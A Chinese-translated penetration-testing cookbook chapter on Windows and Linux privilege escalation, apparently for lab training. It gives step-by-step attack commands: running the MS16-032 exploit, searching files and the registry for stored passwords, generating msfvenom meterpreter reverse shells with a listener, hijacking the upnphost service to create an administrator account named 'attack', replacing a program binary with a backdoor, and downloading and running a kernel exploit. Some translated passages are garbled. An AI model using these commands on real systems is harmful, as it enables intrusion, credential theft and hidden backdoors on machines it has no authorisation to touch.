








# 九、权限提升和利用

在本章中，我们将介绍以下配方：

*   使用 WMIC 查找权限提升漏洞
*   敏感信息收集
*   未引用服务路径攻击
*   服务权限问题
*   软件安装配置错误/文件权限不安全
*   Linux 权限提升

# 导言

在前一章中，我们研究了如何利用该服务，并以具有低权限或系统权限的用户的身份访问服务器。在本章中，我们将了解如何将低权限用户利用为升级用户，在本例中甚至是系统用户。在本章中，我们将介绍 Windows 和 Linux 的升级技术。通常在网络中，当服务器受损时，攻击者总是试图提升权限以造成更大的破坏。一旦攻击者获得对更高权限用户的访问权，他就可以运行系统级命令、窃取密码哈希和域密码，甚至设置后门并将攻击转向网络中的其他系统。让我们继续了解这些权限是如何升级的。

# 使用 WMIC 查找权限提升漏洞

在此配方中，我们将了解攻击者如何通过 WMIC 了解权限提升。WMIC 从多个命令行界面和批处理脚本扩展 WMI 以进行操作。**WMI**代表**Windows Management Instrumentation**。WMIC 可以用来查询安装在系统上的补丁程序，除此之外还有其他一些功能。为了更好地理解，它提供了 Windows 更新期间安装的安全修补程序或正在安装的手动修补程序的所有详细信息的列表。它们通常看起来像（KBxxxxx）。

## 准备好了吗

为了演示这一点，我们需要一台 Windows 7 机器，至少有两个内核。如果我们在 VM 中测试它，我们可以将核心数设置为 2。为了让这个配方起作用，补丁也必须丢失。

## 怎么做。。。

1.  Open the command prompt and execute the following query:

    ```
    wmic qfe get Caption,Description,HotFixID,InstalledOn

    ```

    输出将如以下屏幕截图所示：

    

2.  We get a list of all the patches installed on the operating system. There are two ways to find a possible vulnerability to escalate privilege: by checking the KB sequence number check for the last sequence number installed and then finding the vulnerabilities disclosed after that patch number, or by the installed date. In this case, we search via the installed date and come across the following vulnerability:

    

3.  As we can see, the date of discovery is around **2016-04-21** and our machine was last updated in December 2015\. We will take this vulnerability and find its patch number. A quick Google search for the patch MS16-032 gives us the path number:

    

    

4.  We see that the KB number is `313991`. Let us check if this is installed on the system. Execute the following query in the command prompt:

    ```
          wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr       "KB3139914"

    ```

    输出将如以下屏幕截图所示：

    

5.  伟大的没有为其应用补丁；现在我们将从[的漏洞数据库下载漏洞 https://www.exploit-db.com/exploits/39719/](https://www.exploit-db.com/exploits/39719/) 。下载后，将其重命名为`Invoke-MS16-032.ps1`。
6.  Now open PowerShell and enter the following command:

    ```
          . ./Invoke-MS16-032.ps1
          Invoke-MS16-032

    ```

    输出将如以下屏幕截图所示：

    

7.  答对 了我们有一个系统级的外壳。从这里开始，这个系统就由我们来控制；利用后阶段可以从这里开始。

## 它是如何工作的。。。

让我们了解它是如何工作的：

*   `wmic qfe get Caption,Description,HotFixID,InstalledOn`：该命令执行 WMIC 接口；`qfe`代表`Quick Fix Engineering`和`get`参数允许我们设置想要查看的特定列
*   `. ./ Invoke-MS16-032.ps1`：此命令执行并加载脚本
*   `Invoke-MS16-032`：此命令执行文件

## 还有更多。。。

使用`wmic`命令还有其他升级方式；这不是查询`wmic`时可以发现的唯一漏洞。我们可能会发现更多可能尚未安装的修补程序。现在让我们看看如何收集敏感信息以帮助提升权限。

# 敏感信息收集

通常情况下，网络管理员必须编写脚本，以便在公司网络中的数千台计算机上自动化该过程。在每一个系统上单独配置它们是一项乏味而耗时的任务。在某些情况下，由于疏忽，敏感文件可能一直存在于系统中。这些文件可能包含密码。一旦我们检索到受损系统的散列，我们可以使用它们执行**PTH**（**通过散列**攻击）并访问系统上发现的不同帐户。类似地，如果用户在多个系统上使用相同的密码，那么可以在另一台计算机上使用相同的哈希来获得用户使用 PTH 攻击的访问权限。我们可以在很多地方找到有助于提升权限的敏感信息。

## 准备好了吗

一个 Windows 系统、一台 Kali 机器和对受损机器的远程 shell 访问几乎就是这个配方所需要的全部。

## 怎么做。。。

1.  Use the following command to search the file system for file names containing certain keywords that might reveal sensitive information:

    ```
          dir /s *pass* == *cred* == *vnc* == *.config*

    ```

    输出将如以下屏幕截图所示：

    

2.  To search for a certain file type matching a given keyword, use the following command:

    ```
          findstr /si password *.xml *.ini *.txt

    ```

    输出将如以下屏幕截图所示：

    

3.  要 grep 注册表中的关键字（如密码），请使用以下命令：

    ```
          reg query HKLM /f password /t REG_SZ /s
          reg query HKCU /f password /t REG_SZ /s

    ```

4.  我们还可以搜索无人参与的文件或可能公开某些信息的配置文件。查看系统上是否可以找到以下文件：

    ```
          c:\sysprep.inf
          c:\sysprepsysprep.xml
          %WINDIR%\Panther\Unattend\Unattended.xml
          %WINDIR%\Panther\Unattended.xml
          Note: we found Unattended.xml in the screenshot shared above.

    ```

5.  我们可能会对其他示例 XML 文件感兴趣。看一看：

    ```
          Services\Services.xml
          ScheduledTasks\ScheduledTasks.xml
          Printers\Printers.xml
          Drives\Drives.xml
          DataSources\DataSources.xml

    ```

## 还有更多。。。

桌面上或共享文件夹中可能有包含密码的文件。也可能存在带有存储密码的调度程序。最好只搜索一次操作系统，以查找可能有助于提升权限的敏感信息。

# 无报价服务路径利用

在这个配方中，我们将练习通过一个未引用的服务路径利用并获得高级用户的额外权限。首先，让我们了解什么是无引号的服务路径。我们所说的是与服务二进制文件相关的路径，该服务二进制文件是在没有引号的情况下指定/配置的。仅当授予低权限用户对系统驱动器的访问权限时，此功能才特别有效。这通常发生在公司网络中，用户被授予添加文件的例外。

让我们看一下以下屏幕截图，以便更好地了解此问题：


如果我们查看可执行文件的路径，它是不带引号指定的。在这种情况下，可以绕过 Windows 的执行方法。当路径之间有空格且未在引号中指定时，Windows 基本上按以下方式执行：

```
    C:\Program.exe
    C:\Program\FilesSome.exe
    C:\Program\FilesSome\FolderService.exe

```

在上述情况下，Foxit Cloud Safe 更新服务的路径没有引号，这基本上意味着它将搜索绝对路径，并导致执行`Program.exe`文件的场景。现在让我们来执行这个实际示例，看看它是如何工作的。

## 准备好了吗

为了做好准备，我们需要 Metasploit 和 Foxit Reader，可以在[找到它们 http://filehippo.com/download_foxit/59448/](http://filehippo.com/download_foxit/59448/) 。易受攻击的版本是 Foxit Reader 7.0.6.1126。一旦安装了 Foxit，我们就可以继续制作配方了。

## 怎么做。。。

1.  Run a Windows cmd and type the following command:

    ```
          sc qc FoxitCloudUpdateService

    ```

    输出将如以下屏幕截图所示：

    

2.  We see that the binary path is not enclosed in quotation marks. Now we will proceed to make a reverse shell on our Kali machine, using `msfvenom` for this Windows framework. Open a Kali terminal and enter the following command, replacing the IP you have got for your Kali and the desired port:

    ```
          msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP       Address> LPORT=<Your Port to Connect On> -f exe > Program.exe

    ```

    输出将如以下屏幕截图所示：

    

3.  Start a reverse handler on your Kali machine using the following commands:

    ```
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost x.x.x.x
          set lport xxx
          exploit

    ```

    输出将如以下屏幕截图所示：

    

4.  现在，让我们在 Windows 系统上获取此文件。由于我们关注的是权限提升，我们只需将其托管在 web 服务器上，然后下载到 Windows 计算机上即可。
5.  Once the file is downloaded, we find a way to put it in the `C` drive so that the path resembles `C:\Program.exe`. This is only possible if the permissions are set incorrectly, or a misconfigured FTP setting points the path to the `C` drive, or any misconfiguration that allows us to paste our code on the path:

    

6.  Now we will restart the Windows 7 system and wait for our handler, to see if we get a back-connection:

    

7.  我们已成功地在重新启动时获得反向连接；这是由于无引号的服务路径漏洞造成的。
8.  Let us check the user level we received the connection of:

    

9.  我们在系统中。现在我们可以在操作系统上执行任何任务而不受任何限制。

## 它是如何工作的。。。

正如简介中所讨论的，这是因为 Windows 处理服务二进制文件路径的执行流程。我们可以利用任何中间有空格且没有引号的服务。

让我们了解一下`msfvenom`命令：

```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP   Address>   LPORT=<Your Port to Connect On> -f exe > Program.exe

```

在前面的命令中，`-p`表示有效载荷，`LHOST`和`LPORT`表示有效载荷要求，`-f`表示生成有效载荷的格式。

有关详细信息，请键入以下命令：

```
  Msfvenom -h

```

## 还有更多。。。

在利用数据库上提供了更多未引用服务路径利用的示例。有关详细信息，请使用以下 Google dork 命令：

```
intitle:unquoted site:exploit-db.com 

```

## 另见。。。

*   在[上可以找到两份关于未报价服务路径利用的良好白皮书 https://trustfoundry.net/practical-guide-to-exploiting-the-unquoted-service-path-vulnerability-in-windows/](https://trustfoundry.net/practical-guide-to-exploiting-the-unquoted-service-path-vulnerability-in-windows/) 和[https://www.gracefulsecurity.com/privesc-unquoted-service-path/](https://www.gracefulsecurity.com/privesc-unquoted-service-path/)

# 服务权限问题

在本食谱中，我们将研究如何升级配置较弱的服务上的权限。这里关注的核心领域是，当一个服务被授予所有访问权限时。可以想象，当服务以系统权限运行时，授予其所有访问权限是多么可怕。在本食谱中，我们将看一个案例研究，其中 Windows XP 附带有易受攻击的服务，并且可以作为低权限用户执行系统级命令。如果可能发生这种情况，则很容易利用权限并将其升级到系统。

## 准备好了吗

对于此活动，我们需要一台 Windows XP 计算机。我们将利用在 WindowsXP 操作系统上运行的 UPnP 服务。**UPnP**代表**通用即插即用**协议。我们还需要在 Windows 系统内部组件套件中提供的**AccessChk**工具。可从（[下载 https://technet.microsoft.com/en-us/bb842062](https://technet.microsoft.com/en-us/bb842062) 。让我们从我们的食谱开始吧。

## 怎么做。。。

1.  Once the Windows XP machine has been started, log in with a username with user privileges, open the command prompt in the folder where the `accesschk.exe` file is located, and run the following command:

    ```
    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

    ```

    输出将如以下屏幕截图所示：

    

2.  Once we know that there are two services with access rights to all the users, we will check the service configuration. Enter the following command in the command prompt:

    ```
    sc qc upnphost

    ```

    输出将如以下屏幕截图所示：

    

3.  We will now change the binary path of the service, since the application has given all access. Keep a copy of the service configuration in case we need to revert it back to the original state. Now enter the following command in the terminal:

    ```
    sc config upnphost binpath= "net user attack attack@123 /add"
          sc config upnphost obj= ".\LocalSystem" password= ""

    ```

    输出将如以下屏幕截图所示：

    

4.  We see that our commands have executed successfully. Now let us verify and restart the service by issuing the following command:

    ```
    sc qc upnphost
          net start upnphost

    ```

    输出将如以下屏幕截图所示：

    

5.  Once that is done, we see a service not responding error. However, this was bound to happen: since the binary path is incorrect, it will try to execute the binary path using the system privileges. In this scenario, it should have created a user. Let's check by issuing the following command:

    ```
    net user

    ```

    输出将如以下屏幕截图所示：

    

6.  The `attack` user was successfully created; however, it will be a low-level user. Let us rewrite the binary path. Start and stop the UPnP activity again and get him/her admin privileges:

    ```
    sc config upnphost binpath= "net localgroup administrators        attack/add"
          net stop upnphost
          net start upnphost

    ```

    输出将如以下屏幕截图所示：

    

7.  Let's check the user details of the user attack to verify if he/she has become an admin user or not:

    

## 它是如何工作的。。。

我们在这里看到的是一个普通用户能够创建一个用户，并使该用户成为管理员。通常有权限授予管理员或系统用户；该漏洞存在于`upnphost`服务中，因为它已将所有服务访问权限授予了普通用户。让我们分析一下命令：

*   `accesschk.exe /accepteula -uwcqv "Authenticated Users" *`：`accesschk.exe`文件是检查特定服务访问权限的工具。`/accepteula`命令旨在悄悄绕过许可证接受通知，我们必须单击**我同意**继续。

*   `sc qc upnphost`：`sc`是一个命令行程序，用于与 NT 服务控制器和服务进行通信。`qc`命令查询服务的配置信息。

*   `sc config upnphost binpath= "net user attack attack@123 /add"`：`config`命令指定对服务配置的编辑。这里我们设置二进制路径来创建一个新用户。
*   `sc config upnphost obj= ".\LocalSystem" password= ""`：`obj`命令指定执行服务二进制文件的类型。

## 还有更多。。。

正如我们所看到的，还有一个服务是易受攻击的。最好看看是否可以通过该服务升级权限。

# 软件安装配置错误/文件权限不安全

在本配方中，我们将介绍攻击者如何利用配置错误的软件安装并提升应用程序的权限。这是一个典型的示例，其中配置已安装的安装程序时不考虑用户对应用程序的文件和文件夹的权限。

## 准备好了吗

对于这个配方，我们需要安装一个名为 WinSMS 的应用程序。可从[下载 https://www.exploit-db.com/exploits/40375/](https://www.exploit-db.com/exploits/40375/) 可安装在运行 XP、Vista、7 或 10 的任何 Windows 计算机上。出于演示目的，我们将使用 Windows7。除此之外，我们还需要我们的 Kali 系统启动并运行，以获取反向外壳。

## 怎么做。。。

1.  Once we install the application, we will execute our command prompt and check for the permissions on the folder where the file has installed itself. Enter the following command:

    ```
    cacls "C:\Program Files\WinSMS" 

    ```

    输出将如以下屏幕截图所示：

    

2.  As we can see, there is `Everyone` access, with full rights. That is a serious blunder, which means that anyone who has access to the system can make modifications to any files in that folder. An attacker can pretty much do anything. An attacker can place his malicious file with the executable file of WinSMS, or even replace a DLL file and get his commands executed. For demo purposes, we are going to place a reverse shell that we will create from Kali, and wait for a connection. Let's begin. On your Kali Terminal, enter the following to create a reverse `exe` shell:

    ```
    msfvenom -p windows/meterpreter/reverse_tcp       LHOST=192.168.157.151 LPORT=443 -f exe > WinSMS.exe

    ```

    输出将如以下屏幕截图所示：

    

3.  We download this executable and replace it with the `WinSMS.exe` file in the folder where the software is installed:

    

    现在，我们用新创建的 MeterMeter 文件替换 WinSMS 文件：

    

    

4.  Now that we have placed the file, let's open a listener on our Metasploit and wait to see what happens when a user executes the file. Enter the following commands in the terminal to set up the Metasploit listener:

    ```
          msfconsole
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost 192.168.157.151
          set lport 443
          exploit

    ```

    输出将如以下屏幕截图所示：

    

5.  Now all we have to do is wait for a high-level user to execute the file and, voilà, we will have a reverse shell of that user, complete with his privileges. For demo purposes, we will be executing this file as an administrator. Let's have a look:

    

6.  现在，我们有一个升级的 shell 可以与之交互。

## 它是如何工作的。。。

工作非常简单：攻击者利用不安全的文件夹权限，将文件替换为恶意文件，并在等待反向连接时执行该文件。我们已经在前面的食谱中看到了`msfvenom`是如何工作的。因此，一旦攻击者替换该文件，他只需等待来自高权限用户的连接。

## 还有更多。。。

现在，我们特意在这里为读者留下了一个场景：在前面的例子中，将发生的是文件将被执行。然而，它不会启动该应用程序，这显然会引起怀疑。读者的任务是使用`msfvenom`将后门附加到现有的可执行文件上，这样当它被初始化时，用户将不知道发生了什么，因为程序将执行。

## 另见。。。

*   有关这方面的更多示例，请访问 dork:unsecure file permission 站点：[exploit-db.com](http://exploit-db.com)

# Linux 权限提升

对于这个配方，我们将使用一个名为 Stapler 的易受攻击的操作系统。图像可从[下载 https://www.vulnhub.com/entry/stapler-1，150/](https://www.vulnhub.com/entry/stapler-1,150/)并加载到 VirtualBox 上。在上一章中，我们学习了如何执行漏洞评估并获得低级别或高级别访问。作为练习的一部分，读者可以执行渗透测试并在订书机操作系统上获得外壳。我们将从收到低权限 shell 的那一点开始继续。

## 准备好了吗

对于此配方，读者需要在易受攻击的订书机操作系统上具有低权限外壳。在这个场景中，我们通过进行一些信息收集和密码暴力处理，成功地获得了到其中一个用户的 SSH 连接。

## 怎么做。。。

1.  We have logged in to the Stapler machine with the username `SHayslett`, as shown in the following screenshot:

    

2.  We will enumerate the OS kernel version of the system. Enter the following command to check the version flavor and kernel details:

    ```
    uname -a
          cat /etc/lsb-release

    ```

    输出将如以下屏幕截图所示：

    

3.  On searching for vulnerabilities to escalate privileges, it was observed that Ubuntu 16.04 had vulnerabilities:

    

4.  The first search looks to match our kernel version and Ubuntu OS version. Let us proceed to download it on the machine where we want to escalate privileges. It can be downloaded using the following command:

    ```
          wget https://github.com/offensive-security/exploit-database-      bin-sploits/raw/master/sploits/39772.zip
          unzip 39772.zip

    ```

    输出将如以下屏幕截图所示：

    

5.  Now we go inside folder `39772` and deflate the `exploit.tar` file. Enter the following command in the terminal:

    ```
    cd 39772
          tar xf exploit.tar

    ```

    输出将如以下屏幕截图所示：

    

6.  On entering the `ebpf*` folder there will be a `compile.sh` file. Let's compile and execute the file:

    ```
    cd ebpf_mapfd_doubleput_exploit/
          ./compile.sh
          ./doubleput

    ```

    输出将如以下屏幕截图所示：

    

    伟大的我们已成功获得系统的 root 权限。

## 它是如何工作的。。。

这是一种非常简单而直接的方法，可以确定如何升级 Linux 机器上的权限。我们完成了以下步骤：

*   查找操作系统和内核版本
*   在互联网上搜索缺陷（如果有）
*   发现一些漏洞
*   交叉验证我们的可用向量
*   所有向量都已编译，因此我们下载并执行内核漏洞攻击

还有其他提升 Linux 权限的方法，例如配置错误的服务、不安全的权限等等。

## 还有更多。。。

在此配方中，我们研究了如何利用基于操作系统的漏洞升级低级用户的权限。还有其他方法可以升级权限。所有这些的关键因素是枚举。

要了解更多信息，请检查以下漏洞：

*   操作系统和内核版本
*   应用程序和服务
*   在此模式下，我们搜索以高权限甚至根权限运行的服务，以及配置中是否存在任何缺陷
*   计划作业以及访问或编辑它们的权限
*   访问机密信息或文件，如`/etc/passwd`或`/etc/shadow`
*   无人值守密码文件
*   控制台历史记录/活动历史记录
*   日志文件

## 另见。。。

*   g0tm1lk 在他的网站上写了一篇非常漂亮的文章，他在文章中提供了大量信息，以了解如何列举并找到合适的漏洞：[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)